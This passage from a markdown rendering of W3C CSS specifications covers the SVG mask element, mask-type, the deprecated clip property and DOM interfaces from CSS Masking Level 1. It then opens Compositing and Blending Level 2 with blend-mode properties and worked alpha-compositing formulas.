> **Note:** The `mask` shorthand resets the properties `mask-border`, `mask-border-source`, `mask-border-slice`, `mask-border-width`, `mask-border-outset`, `mask-border-repeat` and `mask-border-mode`.

#### 8.8. Masking with the mask border image {#css-masking-1:masking-with-the-mask-border-image}

After the mask border image given by `mask-border-source` is sliced by the `mask-border-slice` values, the resulting nine images are scaled, positioned, and tiled into their corresponding mask border image regions in four steps as described in the section [Drawing the Border Image](#css-backgrounds-4:border-image-process) [CSS3BG].

The application of the `mask-border-source` property to an element formatted with the CSS box model establishes a stacking context in the same way that CSS `opacity` [CSS3COLOR] does, and all the element’s descendants are rendered together as a group with the masking applied to the group as a whole.

The `mask-border-source` property has no effect on the geometry or hit-testing of any element’s CSS boxes.

### 9. SVG Mask Sources {#css-masking-1:svg-masks}

#### 9.1. The mask element {#css-masking-1:MaskElement}

| Name: | **`mask`** |
| --- | --- |
| Categories: | container elements, never-rendered element |
| Content model: | Any number of the following elements, in any order: [animation](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermAnimationElement) — animate, animateMotion, animateTransform, set [descriptive](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermDescriptiveElement) — desc, title, metadata [shape](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermShapeElement) — circle, ellipse, line, path, polygon, polyline, rect [structural](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermStructuralElement) — defs, g, svg, symbol, use [gradient](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermGradientElement) — linearGradient, radialGradient a clipPath color-profile cursor filter font font-face foreignObject image marker mask pattern script style switch view text altGlyphDef |
| Attributes: | [conditional processing attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermConditionalProcessingAttribute) — [‘requiredFeatures’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#RequiredFeaturesAttribute), [‘requiredExtensions’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#RequiredExtensionsAttribute), [‘systemLanguage’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#SystemLanguageAttribute) [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [‘id’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [‘xml:base’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [‘xml:lang’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [‘xml:space’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, `color-profile`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-horizontal`, `glyph-orientation-vertical`, `image-rendering`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` [‘class’](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [‘style’](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) ‘x’ ‘y’ ‘width’ ‘height’ ‘maskUnits’ ‘maskContentUnits’ |
| DOM Interfaces: | [SVGMaskElement](#css-masking-1:InterfaceSVGMaskElement) |

*Attribute definitions:*

****`maskUnits`** = "`userSpaceOnUse` | `objectBoundingBox`"**

: Defines the coordinate system for attributes x, y, width and height.

  ****userSpaceOnUse****

  : x, y, width and height represent values in the current user coordinate system [CSS3-TRANSFORMS] in place at the time when the mask element is referenced (i.e., the user coordinate system for the element referencing the mask element via the `mask` property).

  ****objectBoundingBox****

  : x, y, width and height represent fractions or percentages of the object bounding box of the element to which the mask is applied. [User coordinates](https://www.w3.org/TR/SVG/coords.html#Units) are sized equivalently to the CSS `px` unit.

  If attribute maskUnits is not specified, then the effect is as if a value of `objectBoundingBox` were specified.

  Animatable: yes.

****`maskContentUnits`** = "`userSpaceOnUse` | `objectBoundingBox`"**

: Defines the coordinate system for the contents of the mask.

  ****userSpaceOnUse****

  : The user coordinate system for the contents of the mask element is the current user coordinate system in place at the time when the mask element is referenced (i.e., the user coordinate system for the element referencing the mask element via the `mask` property).

  ****objectBoundingBox****

  : The coordinate system has its origin at the top left corner of the bounding box of the element to which the clipping path applies to and the same width and height of this bounding box. [User coordinates](https://www.w3.org/TR/SVG/coords.html#Units) are sized equivalently to the CSS `px` unit.

  If attribute maskContentUnits is not specified, then the effect is as if a value of `userSpaceOnUse` were specified.

  Animatable: yes.

****`x`** = "`<length-percentage>`"**

: The x-axis coordinate of one corner of the rectangle for the largest possible offscreen buffer. If the attribute is not specified but at least one of the attributes y, width or height are specified, the effect is as if a value of `-10%` were specified.

  Animatable: yes.

****`y`** = "`<length-percentage>`"**

: The y-axis coordinate of one corner of the rectangle for the largest possible offscreen buffer. If the attribute is not specified but at least one of the attributes x, width or height are specified, the effect is as if a value of `-10%` were specified.

  Animatable: yes.

****`width`** = "`<length-percentage>`"**

: The width of the largest possible offscreen buffer. A negative value or a value of zero disables rendering of the element. If the attribute is not specified but at least one of the attributes x, y or height are specified, the effect is as if a value of `120%` were specified.

  Animatable: yes.

****`height`** = "`<length-percentage>`"**

: The height of the largest possible offscreen buffer. A negative value or a value of zero disables rendering of the element. If the attribute is not specified but at least one of the attributes x, y or width are specified, the effect is as if a value of `120%` were specified.

  Animatable: yes.

If at least one of the attributes x, y, width or height are specified, the given object and the rectangle defined by x, y, width and height establish a current clipping path. The rendered content of the mask must be clipped by this current clipping path.

CSS properties inherit into the mask element from its ancestors; properties do *not* inherit from the element referencing the mask element.

mask elements are never rendered directly; their only usage is as something that can be referenced using the `mask` property. The `opacity`, `filter` and `display` properties do not apply to the mask element; thus, mask elements are not directly rendered even if the `display` property is set to a value other than `none`, and mask elements are available for referencing even when the `display` property on the mask element or any of its ancestors is set to `none`.

#### 9.2. Mask Source Interpretation: the `mask-type` property {#css-masking-1:the-mask-type}

| Field | Value |
| --- | --- |
| Name: | **mask-type** |
| [Value:](#css-values-4:value-defs) | luminance \| alpha |
| [Initial:](#css-cascade-6:initial-values) | luminance |
| [Applies to:](#css-cascade-5:applies-to) | mask elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `mask-type` property defines whether the content of the mask element is treated as as luminance mask or alpha mask, as described in [Calculating mask values](#css-masking-1:MaskValues).

Values have the following meanings:

****luminance****

: Indicates that the luminance values of the mask should be used.

****alpha****

: Indicates that the alpha values of the mask should be used.

The `mask-type` property allows the author of the mask element to specify the preferred masking mode. However, the author can override this preference by setting the `mask-mode` value to something different than `match-source` on the masked content.

> **Example:** In the following example the computed value of `mask-type` is `luminance` and the computed value of `mask-mode` is `match-source`. The UA must follow the preferred masking mode defined on the mask element.
>
> ```
> <svg>
>   <mask style="mask-type: luminance;" id="mask">
>     ...
>   </mask>
> </svg>
>
> <p style="mask-image: url(#mask); mask-mode: match-source;">
>   This is the masked content.
> </p>
> ```
>
> In the next example the computed value of `mask-mode` is `alpha` and overrides the preference on the mask element that is computed to `luminance`. The mask layer image is used as an alpha mask.
>
> ```
> <svg>
>  <mask style="mask-type: luminance;" id="mask2">
>    ...
>  </mask>
> </svg>
>
> <p style="mask-image: url(#mask2); mask-mode: alpha;">
>  This is the masked content.
> </p>
> ```

The `mask-type` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

### Appendix A: The deprecated `clip` property {#css-masking-1:clip-property}

| Field | Value |
| --- | --- |
| Name: | **clip** |
| [Value:](#css-values-4:value-defs) | `<rect()>` \| `auto` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | Absolutely positioned elements. In SVG, it applies to [elements which establish a new viewport](https://www.w3.org/TR/SVG/coords.html#EstablishingANewSVGViewport), pattern elements and mask elements. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by [computed value](#web-animations-1:animation-type) |
| Media: | visual |

With this specification the `clip` property is deprecated. Authors are encouraged to use the `clip-path` property instead. UAs must support the `clip` property.

The `clip` property applies only to absolutely positioned elements. In SVG, it applies to [elements which establish a new viewport](https://www.w3.org/TR/SVG/coords.html#EstablishingANewSVGViewport), pattern elements and mask elements. Values have the following meanings:

**auto**

: The element does not clip.

****rect()** = rect( `<top>`, `<right>`, `<bottom>`, `<left>` )**

: `<top>` and `<bottom>` specify offsets from the top border edge of the box, and `<right>`, and `<left>` specify offsets from the left border edge of the box. Authors should separate offset values with commas. User agents must support separation with commas, but may also support separation without commas (but not a combination), because a previous revision of this specification was ambiguous in this respect.

  **<top>**, **<right>**, **<bottom>**, and **<left>** may either have a `<length>` value or `auto`. Negative lengths are permitted. The value `auto` means that a given edge of the clipping region will be the same as the edge of the element’s generated border box (i.e., `auto` means the same as `0` for `<top>` and `<left>`, the same as the used value of the height plus the sum of vertical padding and border widths for `<bottom>`, and the same as the used value of the width plus the sum of the horizontal padding and border widths for `<right>`, such that four `auto` values result in the clipping region being the same as the element’s border box).

  When coordinates are rounded to pixel coordinates, care should be taken that no pixels remain visible when `<left>` and `<right>` have the same value (or `<top>` and `<bottom>` have the same value), and conversely that no pixels within the element’s border box remain hidden when these values are `auto`.

The `clip` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

> **Example:** The following two rules:
>
> ```
> p#one { clip: rect(5px, 40px, 45px, 5px); }
> p#two { clip: rect(5px, 55px, 45px, 5px); }
> ```
>
> and assuming both Ps are 50 by 55 pixel, will create, respectively, the rectangular clipping regions delimited by the dashed lines in the following illustrations:
>
> 
>
> This diagram illustrates two block boxes, one next to the other, with rectangular clipping regions of different dimensions. (See [long description](https://www.w3.org/TR/CSS2/images/longdesc/clip-desc.html).)

### Appendix B: Compute stroke bounding box {#css-masking-1:compute-stroke-bounding-box}

The algorithm to compute the **stroke bounding box** is as follows, depending on the type of *element*:

**a graphics element without use or image an a element with a text content element**

: 1. Let *box* be a rectangle initialized to the object bounding box of *element*.
  2. If the used value of `stroke-width` <= 0 or the used value of `stroke` is `none` return *box*.
  3. Let *delta* be the inflation value initialized to the half of the `stroke-width`.
  4. If *element* is not rect, ellipse, circle or image just follow one of the following conditions in the order they apply:

     **the used value for `stroke-linejoin` is `miter`**

     : 1. Let *miter* be the used value of `stroke-miterlimit`.
    2. If *miter* is smaller than the square root of 2 and if the used value for `stroke-linecap` is `square`, multiply *delta* with the square root of 2. Otherwise, multiply *delta* with *miter*.

     **the used value for `stroke-linecap` is `square`**

     : 1. Multiply *delta* with the square root of 2.
  5. Inflate *box* with the value of *delta*.
  6. Return *box*.

  > **Note:** The values of the `stroke-opacity`, `stroke-dasharray` and `stroke-dashoffset` do not affect the calculation of the stroke bounding box.

**a container element use**

: 1. Let *parent* be the container element if it is one, or the root of the use element’s shadow tree otherwise.
  2. For each child *child* of *parent*

    1. Invoke the stroke bounding box algorithm with *child*.
    2. Let *childBox* be the returned box value of the invoked algorithm.
    3. Map *childBox* from the coordinate space of *child* to the coordinate space of *parent*.
  3. Let *box* be the union of all *childBox*es.
  4. Return *box*.

**image**

: 1. Return the object bounding box of *element*.

> **Note:** A future version of the SVG specification may override this section.

### Appendix C: DOM interfaces {#css-masking-1:DOMInterfaces}

#### Interface SVGClipPathElement {#css-masking-1:InterfaceSVGClipPathElement}

The **`SVGClipPathElement`** interface corresponds to the clipPath element.

```webidl
[Exposed=Window]
interface SVGClipPathElement : SVGElement {
  readonly attribute SVGAnimatedEnumeration clipPathUnits;
  readonly attribute SVGAnimatedTransformList transform;
};
```

**Attributes:**

: ****`clipPathUnits`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute clipPathUnits on the given clipPath element. Takes one of the constants defined in SVGUnitTypes.

  ****`transform`**,  of type SVGAnimatedTransformList, readonly**

  : Corresponds to presentation attribute `transform` on the given element.

#### Interface SVGMaskElement {#css-masking-1:InterfaceSVGMaskElement}

The **`SVGMaskElement`** interface corresponds to the mask element.

```webidl
[Exposed=Window]
interface SVGMaskElement : SVGElement {
  readonly attribute SVGAnimatedEnumeration maskUnits;
  readonly attribute SVGAnimatedEnumeration maskContentUnits;
  readonly attribute SVGAnimatedLength x;
  readonly attribute SVGAnimatedLength y;
  readonly attribute SVGAnimatedLength width;
  readonly attribute SVGAnimatedLength height;
};
```

**Attributes:**

: ****`maskUnits`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute maskUnits on the given mask element. Takes one of the constants defined in SVGUnitTypes.

  ****`maskContentUnits`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute maskContentUnits on the given mask element. Takes one of the constants defined in SVGUnitTypes.

  ****`x`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute x on the given mask element.

  ****`y`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute y on the given mask element.

  ****`width`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute width on the given mask element.

  ****`height`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute height on the given mask element.

---

## Compositing and Blending Module Level 2 {#compositing-2}

- **Shortname:** `compositing-2`
- **Editor's Draft:** [https://drafts.csswg.org/compositing-2/](https://drafts.csswg.org/compositing-2/)
- **Published TR:** [https://www.w3.org/TR/compositing-2/](https://www.w3.org/TR/compositing-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-12-13

### 1. Introduction {#compositing-2:introduction}

*This subsection is non-normative.*  The first part of this document describes the properties used to control the compositing in CSS. The second part will describe the algorithms of Porter Duff compositing and blending.

### 2. Reading This Document {#compositing-2:reading-this-document}

Each section of this document is normative unless otherwise specified.

#### 2.1. Module interactions {#compositing-2:module-interactions}

This specification defines a set of CSS properties that affect the visual rendering of elements to which those properties are applied; these effects are applied after elements have been sized and positioned according to the [Visual formatting model](#css2:visual-model-intro). Some values of these properties result in the creation of a containing block, and/or the creation of a stacking context.

The `background-blend-mode` property also builds upon the properties defined in the [CSS Backgrounds and Borders](#css-backgrounds-4:placement) module [CSS3BG].

This specification also enhances the rules as specified in [Section 14.2 Simple alpha compositing](https://www.w3.org/TR/2003/REC-SVG11-20030114/masking.html#SimpleAlphaBlending) of [SVG11] and [simple alpha compositing](#css-color-4:alpha) of [CSS3COLOR].

This module also extends the `globalCompositeOperation`.

#### 2.2. Values {#compositing-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs). Value types not defined in this specification are defined in CSS Level 2 Revision 1 [CSS21]. Other CSS modules may expand the definitions of these value types: for example [CSS3COLOR], when combined with this module, expands the definition of the <color> value type as used in this specification.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the inherit keyword as their property value. For readability it has not been repeated explicitly.

### 3. Specifying Blending in CSS {#compositing-2:csscompositingandblending}

#### 3.1. Order of graphical operations {#compositing-2:compositingandblendingorder}

The compositing model must follow the [SVG compositing](https://www.w3.org/TR/SVG11/render.html#Introduction) model [SVG11]: first any filter effect is applied, then any clipping, masking, blending and compositing.

#### 3.2. Behavior specific to HTML {#compositing-2:csscompositingrules_CSS}

Everything in CSS that creates a stacking context must be considered an [‘isolated’ group](#compositing-2:isolatedgroups). HTML elements themselves should not create groups.

An element that has blending applied, must blend with all the underlying content of the stacking context that that element belongs to.

The root element for an HTML document is the [document element](https://dom.spec.whatwg.org/#document-element).

#### 3.3. Behavior specific to SVG {#compositing-2:csscompositingrules_SVG}

By default, every element must create a [non-isolated group](#compositing-2:isolatedgroups).

However, certain operations in SVG will create [isolated groups](#compositing-2:isolatedgroups). If one of the following features is used, the group must become isolated:

- opacity
- filters
- 3D transforms (2D transforms must NOT cause isolation)
- blending
- masking

The root element for SVG is the [SVG element](https://www.w3.org/TR/SVG11/struct.html#NewDocument).

#### 3.4. CSS Properties {#compositing-2:csskeywords}

##### 3.4.1. The `mix-blend-mode` property {#compositing-2:mix-blend-mode}

The blend mode defines the formula that must be used to mix the colors with the backdrop. This behavior is described in more detail in [Blending](#compositing-2:blending).

| Field | Value |
| --- | --- |
| Name: | **mix-blend-mode** |
| [Value:](#css-values-4:value-defs) | `<blend-mode>` \| plus-lighter |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to [container elements](https://www.w3.org/TR/SVG/intro.html#TermContainerElement), [graphics elements](https://www.w3.org/TR/SVG/intro.html#TermGraphicsElement) and [graphics referencing elements](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermGraphicsReferencingElement). [SVG11] |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The syntax of the property of `<blend-mode>` is given with:

```css
<blend-mode> =
  normal |
  darken | multiply | color-burn |
  lighten | screen | color-dodge |
  overlay | soft-light | hard-light |
  difference | exclusion |
  hue | saturation | color | luminosity
```

> **Note:** Applying a blendmode other than `normal` to the element must establish a new stacking context. This group must then be blended and composited with the stacking context that contains the element.

> **Example:** Given the following sample markup:
>
> ```
> <body>
>   
> </body>
> ```
>
> And the following style rule:
>
> ```
> body { background-color: lime; }
> ```
>
> ... will produce the following result:
>
> 
>
> Partially transparent image on a lime backdrop.
>
> If we change the style rule to include blending:
>
> ```
> body { background-color: lime; }
> img { mix-blend-mode: multiply; }
> ```
>
> ... the output will be the image blending with the lime background of the body element.
>
> 
>
> Blending of a transparent image on a lime backdrop.

> **Example:** Given the following svg code:
>
> ```
> <svg>
>   <circle cx="40" cy="40" r="40" fill="red"/>
>   <circle cx="80" cy="40" r="40" fill="lime"/>
>   <circle cx="60" cy="80" r="40" fill="blue"/>
> </svg>
> ```
>
> And the following style rule:
>
> ```
> circle { mix-blend-mode: screen; }
> ```
>
> ... the output will be blending of the 3 circles. Each circle is rendered from bottom to top. Where the elements overlap, the blend mode produces a change in color.
>
> 
>
> Example of 3 circles blending with a screen blend mode.

> **Example:** In the following style sheet and document fragment:
>
> ```
> body { background-color: lime; }
> div { background-color: red; width: 200px; opacity: .95}
> img { mix-blend-mode: difference; }
>
> <body>
>   <div>
>      
>   </div>
> </body>
> ```
>
> ... the `opacity` on the <div> element is causing the creation of a stacking context. This causes the creation of a new group so the image doesn’t blend with the color of the body.
>
> 
>
> Example of blending within a stacking context.
>
> Note how the image is not blending with the lime color.

> **Example:** Given the following sample markup:
>
> ```
> <body>
>    <div>
>      <p>''overlay'' blending on text</p>
>    </div>
> </body>
> ```
>
> And the following style rule:
>
> ```
> div { background-image: url('texture.png'); }
> @font-face {
>   font-family: "Mythos Std";
>   src: url("http://myfontvendor.com/mythos.otf");
> }
> p {
>   mix-blend-mode: overlay;
>   font-family: "Mythos Std"
> }
> ```
>
> 
>
> Text with a blend overlay on top of an image.

##### 3.4.2. The `isolation` property {#compositing-2:isolation}

In SVG, this defines whether an element is isolated or not.  For CSS, setting `isolation` to `isolate` will turn the element into a stacking context.

By default, elements use the `auto` keyword which implies that they are not isolated. However operations that cause the creation of stacking context must cause a group to be isolated. These operations are described in ['behavior specific to HTML'](#compositing-2:csscompositingrules_CSS) and ['behavior specific to SVG'](#compositing-2:csscompositingrules_SVG).

| Field | Value |
| --- | --- |
| Name: | **isolation** |
| [Value:](#css-values-4:value-defs) | `<isolation-mode>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to [container elements](https://www.w3.org/TR/SVG/intro.html#TermContainerElement), [graphics elements](https://www.w3.org/TR/SVG/intro.html#TermGraphicsElement) and [graphics referencing elements](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermGraphicsReferencingElement). [SVG11] |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The syntax of the property of `<isolation-mode>` is given with:

```css
<isolation-mode> = auto | isolate
```

In CSS, a background image or the content of an img must always be rendered into an isolated group. For instance, if you link to an SVG file through the img tag, the artwork of that SVG will not blend with the backdrop of the content.

In SVG, `mask` always creates an isolated group.

##### 3.4.3. The `background-blend-mode` property {#compositing-2:background-blend-mode}

Defines the blending mode of each background layer.

Each background layer must blend with the element’s background layer that is below it and the element’s background color. Background layers must not blend with the content that is behind the element, instead they must act as if they are rendered into an isolated group.

The description of the `background-blend-mode` property is as follows:

| Field | Value |
| --- | --- |
| Name: | **background-blend-mode** |
| [Value:](#css-values-4:value-defs) | `<'mix-blend-mode'>`# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | All HTML elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `background-blend-mode` list must be applied in the same order as `background-image` [CSS3BG]. This means that the first element in the list will apply to the layer that is on top. If a property doesn’t have enough comma-separated values to match the number of layers, the UA must calculate its used value by repeating the list of values until there are enough.

If the `background` [CSS3BG] shorthand is used, the `background-blend-mode` property for that element must be reset to its initial value.

> **Example:** Given the following sample markup:
>
> ```
> <body>
>    <div></div>
> </body>
> ```
>
> And the following style rule:
>
> ```
> body { background-color: lime; }
> div {
>   width: 200px;
>   height: 200px;
>   background-size: 200px 200px;
>   background-repeat:no-repeat;
>   background-image: linear-gradient(to right, #000000 0%,#ffffff 100%), url('ducky.png');
>   background-blend-mode: difference, normal;
> }
> ```
>
> 
>
> Blending of 2 background images.
>
> Note that the gradient is not blending with the color of body. Instead it retains its original color.

### 4. Specifying Compositing and Blending in Canvas 2D {#compositing-2:canvascompositingandblending}

The [canvas 2d](https://html.spec.whatwg.org/multipage/canvas.html#2dcontext) context defines the `globalCompositeOperation` attribute that is used to set the current compositing and blending operator.

This property takes the following value:

**‘globalCompositeOperation’**

: | *Value:* | `<blend-mode>` \| `<composite-mode>` |
  | --- | --- |
  | *Initial:* | source-over |

The syntax of the property of `<composite-mode>` is given with:

```css
<composite-mode> = clear | copy | source-over | destination-over | source-in |    destination-in | source-out | destination-out | source-atop |    destination-atop | xor | lighter | plus-darker | plus-lighter
```

### 5. Introduction to compositing {#compositing-2:whatiscompositing}

Compositing is the combining of a graphic element with its backdrop.

In the model described in this specification there are two steps to the overall compositing operation - [Porter-Duff compositing](#compositing-2:advancedcompositing) and [blending](#compositing-2:blending). The blending step determines how the colors from the graphic element and the backdrop interact.

Typically, the blending step is performed first, followed by the Porter-Duff compositing step. In the blending step, the resultant color from the mix of the element and the the backdrop is calculated. The graphic element’s color is replaced with this resultant color. The graphic element is then composited with the backdrop using the specified compositing operator.

> **Note:** Shape is defined by the mathematical description of the shape. A particular point is either inside the shape or it is not. There are no gradations.

> **Note:** Opacity is described using an alpha value, stored alongside the color value for each particular point. The alpha value is between 0 and 1, inclusive. A value of 0 means that the pixel has no coverage at that point, and is therefore transparent; i.e. there is no color contribution from any geometry because the geometry does not overlap this pixel. A value of 1 means that the pixel is fully opaque; the geometry completely overlaps the pixel.

#### 5.1. Simple alpha compositing {#compositing-2:simplealphacompositing}

The formula for simple alpha compositing is

```
co = Cs x αs + Cb x αb x (1 - αs)
```

Where

- co: the premultiplied pixel value after compositing
- Cs: the color value of the source graphic element being composited
- αs: the alpha value of the source graphic element being composited
- Cb: the color value of the backdrop
- αb: the alpha value of the backdrop

> **Note:** All values are between 0 and 1 inclusive.

The pixel value after compositing (co) is given by adding the contributions from the source graphic element [Cs x αs] and the backdrop [Cb x αb x (1 - αs)]. For both the graphic element and the backdrop, the color values are multiplied by the alpha to determine the amount of color that contributes. With zero alpha meaning that the color does not contribute and partial alpha means that some percentage of the color contributes. The contribution of the backdrop is further reduced based on the opacity of the graphic element. Conceptually, (1 - αs) of the backdrop shows through the graphic element, meaning that if the graphic element is fully opaque (αs=1) then no backdrop shows through.

The simple alpha compositing formula listed above gives a resultant color which is the result of the weighted average of the backdrop color and graphic element color, with the weighting determined by the backdrop and graphic element alphas. The resultant alpha value of the composite is simply the sum of the contributed alpha of the composited elements. The formula for the resultant alpha of the composite is

```
αo = αs + αb x (1 - αs)
```

Where

- αo: the alpha value of the composite
- αs: the alpha value of the graphic element being composited
- αb: the alpha value of the backdrop

> **Note:** Often, it can be more efficient to store a `pre-multiplied value` for the color and opacity. The pre-multiplied value is given by
>
> ```
> cs = Cs x αs
> ```
>
> with
>
> - cs: the pre-multiplied value
> - Cs: the color value
> - αs: the alpha value
>
> Thus the formula for simple alpha compositing using pre-multiplied values becomes
>
> ```
> co = cs + cb x (1 - αs)
> ```
>
> To extract the color component of a pre-multiplied value, the formula is reversed:
>
> ```
> Co = co / αo
> ```

##### 5.1.1. Examples of simple alpha compositing {#compositing-2:simplealphacompositingexamples}

> **Example:** 
>
> This describes the most basic case. It consists of 1 shape that is filled with a solid color (α = 1). The shape is composited with an empty background. The empty background has no effect on the resultant composite.
>
> ```
> Cs = RGB(1,0,0)
> αs = 1
> Cb = RGB(0,0,0)
> αb = 0
>
> co = Cs x αs + Cb x αb x (1 - αs)
> co = RGB(1,0,0) x 1 + RGB(0,0,0) x 0 x (1 - 1)
> co = RGB(1,0,0) x 1
> co = RGB(1,0,0)
> ```

> **Example:** 
>
> This is a more complex example. There is no transparency, but the 2 shapes intersect.
>
> Applying the compositing formula in the area of intersection, gives:
>
> ```
> Cs = RGB(0,0,1)
> αs = 1
> Cb = RGB(1,0,0)
> αb = 1
>
> co = Cs x αs + Cb x αb x (1 - αs)
> co = RGB(0,0,1) x 1 + RGB(1,0,0) x 1 x (1 - 1)
> co = RGB(0,0,1) x 1 + RGB(1,0,0) x 1 x 0
> co = RGB(0,0,1) x 1
> co = RGB(0,0,1)
> ```
>
> Calculating the alpha of the resultant composite
>
> ```
> αo = αs + αb x (1 - αs)
> αo = 1 + 1 x (1 - 1)
> αo = 1
> ```
>
> Calculating the color component of the resultant composite
>
> ```
> Co = co / αo
> Co = RGB(0, 0, 1) / 1
> Co = RGB(0, 0, 1)
> ```

> **Example:** 
>
> This is an example where the shape has some transparency, but the backdrop is fully opaque.
>
> Applying the compositing formula in the area of intersection, gives:
>
> ```
> Cs = RGB(0,0,1)
> αs = 0.5
> Cb = RGB(1,0,0)
> αb = 1
>
> co = Cs x αs + Cb x αb x (1 - αs)
> co = RGB(0,0,1) x 0.5 + RGB(1,0,0) x 1 x (1 - 0.5)
> co = RGB(0,0,1) x 0.5 + RGB(1,0,0) x 0.5
> co = RGB(0.5,0,0.5)
> ```
>
> Calculating the alpha of the resultant composite
>
> ```
> αo = αs + αb x (1 - αs)
> αo = 0.5 + 1 x (1 - 0.5)
> αo = 1
> ```
>
> Calculating the color component of the resultant composite
>
> ```
> Co = co / αo
> Co = RGB(0.5, 0, 0.5) / 1
> Co = RGB(0.5, 0, 0.5)
> ```

> **Example:** 
>
> Figure 4 shows an example where both the shape and the backdrop are transparent.
>
> Applying the compositing formula in the area of intersection, gives:
>
> ```
> Cs = RGB(0,0,1)
> αs = 0.5
> Cb = RGB(1,0,0)
> αb = 0.5
>
> co = Cs x αs + Cb x αb x (1 - αs)
> co = RGB(0,0,1) x 0.5 + RGB(1,0,0) x 0.5 x (1 - 0.5)
> co = RGB(0,0,1) x 0.5 + RGB(1,0,0) x 0.25
> co = RGB(0.25, 0, 0.5)
> ```
>
> Calculating the alpha of the resultant composite
>
> ```
> αo = αs + αb x (1 - αs)
> αo = 0.5 + 0.5 x (1 - 0.5)
> αo = 0.75
> ```
>
> Calculating the color component of the resultant composite
>
> ```
> Co = co / αo
> Co = RGB(0.25, 0, 0.5) / 0.75
> Co = RGB(0.33, 0, 0.66)
> ```

### 6. General Formula for Compositing and Blending {#compositing-2:generalformula}

The general formula for compositing and blending which allows for selection of the compositing operator and blending function comprises two steps. The terms used in these functions will be described in detail in the following sections.

Apply the blend in place

```
Cs = (1 - αb) x Cs + αb x B(Cb, Cs)
```

Composite

```
Co = αs x Fa x Cs + αb x Fb x Cb
```

Where:

- **Cs**: is the source color
- **Cb**: is the backdrop color
- **αs**: is the source alpha
- **αb**: is the backdrop alpha
- **B(Cb, Cs)**: is the mixing function
- **Fa**: is defined by the Porter Duff operator in use
